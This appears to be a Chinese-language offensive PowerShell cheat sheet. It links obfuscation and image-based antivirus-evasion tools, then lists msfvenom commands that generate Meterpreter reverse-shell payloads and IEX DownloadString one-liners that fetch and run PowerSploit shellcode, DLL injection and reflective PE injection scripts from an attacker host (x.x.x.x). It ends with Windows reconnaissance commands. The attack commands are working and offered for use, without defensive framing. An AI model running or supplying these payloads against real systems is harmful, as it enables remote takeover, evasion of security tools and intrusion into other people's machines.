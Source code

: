 混淆框架:
https://github.com/danielbohannon/Invoke-Obfuscation
图片免杀执行powershell:
https://github.com/peewpw/Invoke-PSImage

PowerSploit脚本加载shellcode:
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=4444 -f powershell -o /var/www/html/test
IEX(New-Object Net.WebClient).DownloadString("http://x.x.x.x/PowerSploit/CodeExecution/Invoke-Shellcode.ps1")
IEX(New-Object Net.WebClient).DownloadString("http://x.x.x.x/test")
Invoke-Shellcode -Shellcode $buf -Force

PowerSploit脚本加载dll:
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=x.x.x.x lport=4444 -f dll -o /var/www/html/test.dll
IEX(New-Object Net.WebClient).DownloadString("http://x.x.x.x/PowerSploit/CodeExecution/Invoke-DllInjection.ps1")
Start-Process c:\windows\system32\notepad.exe -WindowStyle Hidden
Invoke-DllInjection -ProcessID xxx -Dll c:\test.dll

PowerSploit脚本加载exe:
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=x.x.x.x lport=4444 -f exe > /var/www/html/test.exe
powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1');Invoke-ReflectivePEInjection -PEUrl http://x.x.x.x/test.exe -ForceASLR"

检查计算机是否属于域:
(Get-WmiObject -Class Win32_ComputerSystem).PartOfDomain

获取工作组名称:
(Get-WmiObject -Class Win32_ComputerSystem).Workgroup

检查系统是32位还是64位:
[System.Environment]::Is64BitOperatingSystem
(Get-CimInstance -ClassName win32_operatingsystem).OSArchitecture

已安装软件列表:
Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\Software | ft Name

已安装补丁列表:
Get-HotFix

已安装powershell版本列表:
(gp HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngine -Name PowerShellVersion).PowerShellVersion
$PSVersionTable

获取系统正常运行时间:
[Timespan]::FromMilliseconds(Environment::TickCount)

进程信息:
ps
tasklist /svc 
